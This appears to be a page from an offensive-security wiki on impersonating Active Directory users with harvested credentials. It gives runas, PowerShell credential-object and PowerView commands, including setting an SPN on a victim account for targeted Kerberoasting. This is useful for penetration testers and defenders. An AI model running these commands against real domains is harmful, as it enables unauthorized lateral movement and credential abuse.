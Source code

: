 # Impersonation

When credentials are found (through [dumping](broken-reference) or [cracking](cracking.md) for instance), attackers try to use them to obtain access to new resources. Depending on the harvested credential material type, the impersonation can be done in different ways.

* **LM or NT password hash**: [pass-the-hash](broken-reference)
* **RC4 Kerberos key (i.e. NT hash)**: [overpass-the-hash](../kerberos/ptk.md)
* **non-RC4 Kerberos key (i.e. DES or AES)**: [pass-the-key](../kerberos/ptk.md) (alias for overpass-the-hash)
* **Kerberos ticket**: [pass-the-ticket](broken-reference)
* **plaintext password**: the techniques listed below

{% tabs %}
{% tab title="RunAs" %}
RunAs is a standard Windows command that allows to execute a program under a different user account. When stuffing an Active Directory account's password, the `/netonly` flag must be set to indicate the credentials are to be used for remote access only.

```bash
runas /netonly /user:$DOMAIN\$USER "powershell.exe"
```

Since the password cannot be supplied as an argument, the session must be interactive.
{% endtab %}

{% tab title="Powershell" %}
In Powershell, it is possible to impersonate a user by create a credential object and supplying it with the `-Credential` argument in the next command.

```bash
# Credential object creation (prompted)
$credential = Get-Credential

# Credential object creation (not prompted)
$password = ConvertTo-SecureString 'pasword_of_user_to_run_as' -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential('FQDN.DOMAIN\user_to_run_as', $password)

# Usage
Start-Process Notepad.exe -Credential $credential
```
{% endtab %}

{% tab title="PowerView" %}
Most of [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)'s functions have the `-Credential`, `-Domain` and `-Server` parameters that can be used to explicitly specify the user to run as, the target Domain and and the target Domain Controller. Just like the previous "Powershell" tab, the -Credential option has to be supplied with a credential object.

Here is an example for [targeted Kerberoasting](../dacl/targeted-kerberoasting.md).

```bash
# Credential object creation (not prompted)
$password = ConvertTo-SecureString 'pasword_of_user_to_run_as' -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential('FQDN.DOMAIN\user_to_run_as', $password)

# Usage
Set-DomainObject -Credential $Cred -Domain 'FQDN.DOMAIN' -Server 'Domain_Controller' -Identity 'victimuser' -Set @{serviceprincipalname='nonexistant/BLAHBLAH'}
$User = Get-DomainUser -Credential $Cred -Domain 'FQDN.DOMAIN' -Server 'Domain_Controller' 'victimuser'
$User | Get-DomainSPNTicket -Credential $Cred -Domain 'FQDN.DOMAIN' -Server 'Domain_Controller' | fl
```
{% endtab %}
{% endtabs %}

[SharpLdapWhoami](https://github.com/bugch3ck/SharpLdapWhoami) can then be used to make sure the user is correctly impersonated. A standard whoami command will only return the local user rights, not the users impersonated during remote operations (like LDAP queries to the DC).

```powershell
.\SharpLdapWhoami.exe
.\SharpLdapWhoami.exe /method:kerberos /all
```
